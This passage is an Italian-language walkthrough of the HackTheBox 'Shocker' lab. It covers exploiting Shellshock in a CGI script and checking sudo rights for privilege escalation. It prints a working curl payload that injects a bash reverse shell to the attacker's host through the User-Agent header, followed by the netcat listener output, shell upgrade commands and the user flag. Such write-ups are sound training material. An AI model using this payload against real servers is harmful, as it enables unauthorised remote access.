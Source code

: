 Quello che succede è che tutto quello che si trova all'interno del file user.sh viene eseguito dal server senza nessun tipo di controllo.
Quindi andiamo a scrivere il codice una revshell all'interno del file in modo tale che al momento della chiamata GET il codice all'interno del file viene eseguito

## 2St METOD

Possiamo eseguire la stessa cosa anche da riga di comando con il comando curl 
```bash
┌──(root㉿kali)-[/home/kali]
└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.53/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

Otteniamo una shell anche in questo caso una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/shocker]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.56] 57280
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

Upgrade della shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256colo
```

Flags User:
```bash
shelly@Shocker:/home/shelly$ cat user.txt 
68196ee0cb620a8b119b3c47d999e392
```

# PRIVESC

lanciamo un sudo -l per vedere cosa possiamo eseguire come sudo:

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ 
```
